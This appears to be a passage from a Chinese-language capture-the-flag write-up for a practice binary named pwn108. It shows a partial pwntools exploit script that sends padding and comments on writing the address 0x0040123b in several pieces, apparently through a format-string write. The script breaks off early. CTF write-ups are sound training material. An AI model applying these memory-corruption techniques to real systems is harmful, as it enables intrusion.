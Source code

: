 ![image-20231121094108956](images/pwn101%E9%9D%B6%E5%9C%BA.assets/image-20231121094108956.png)



构造完整payload

```python
#!/usr/bin/env python
from pwn import *

sh = process('./pwn108')
#sh = host = remote('10.10.10.218',9007)
context.log_level = "debug"


payload = b"A" * 0x12

sh.send(payload)

#如果一次性写入0x0040123b，则需要消耗4MB字节，所以分多次写入
#0x0040123b

#第一次写入最高位0x40 对应 64
```